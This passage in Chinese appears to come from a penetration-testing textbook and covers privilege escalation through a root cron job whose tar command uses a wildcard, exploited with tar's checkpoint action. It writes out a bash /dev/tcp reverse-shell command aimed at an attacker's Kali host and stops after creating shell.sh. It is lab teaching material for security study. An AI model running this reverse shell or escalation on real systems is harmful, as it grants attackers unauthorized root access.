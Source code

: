请注意，这一技巧的成功与否取决于 cron 任务中是否使用了通配符。

按照以下步骤操作：

1.  这个过程的第一步是识别那些执行带有通配符的命令或脚本的 cron 任务。分析 **crontab** 文件时，发现了一个有趣的 cron 任务，负责创建和压缩备份归档文件：![图 12.14 – 备份 cron 任务    ](img/B17389_12_014.jpg)

    图 12.14 – 备份 cron 任务

    如上截图所示，cron 任务以 root 用户身份每分钟运行一次 **/usr/local/bin** 目录下的 **compress.sh** 脚本，并且每天、每小时、每月都会运行。

1.  我们可以通过运行以下命令来显示**compress.sh**脚本的内容：

    **cat /usr/local/bin/compress.sh**

    输出如下：

    ![图 12.15 – 显示 compress.sh 脚本的内容    ](img/B17389_12_015.jpg)

    图 12.15 – 显示 compress.sh 脚本的内容

    如前面截图所示，我们可以确认脚本是从**用户**帐户的主目录执行的，且文件已使用**tar**工具进行压缩。然而，我们还可以发现**tar**命令的末尾有一个通配符（*****）。这个通配符用于指定**用户**帐户主目录中的所有文件。

1.  **tar**工具具有一个检查点功能，用于在特定文件集之后显示进度消息。它还允许用户定义在检查点期间执行的特定操作。我们可以利用此功能来执行一个反向 Shell 负载，在执行时为我们提供一个提升的会话。

1.  我们可以创建反向 Shell 脚本，并插入一个**bash**命令，它将为我们提供反向 Shell。可以通过在**用户**的主目录中运行以下命令来实现：

    **echo 'bash -i >& /dev/tcp/<KALI-IP>/<PORT> 0>&1' > shell.sh**

    该命令将添加一个**bash**命令，它将连接到我们在 Kali Linux 虚拟机上的反向监听器。确保在命令中替换相应的 IP 地址和端口号。

    运行上述命令后，应该已经创建了**shell.sh**文件，并且文件中应包含以下截图所示的命令：

    ![图 12.16 – Shell 脚本](img/B17389_12_016.jpg)
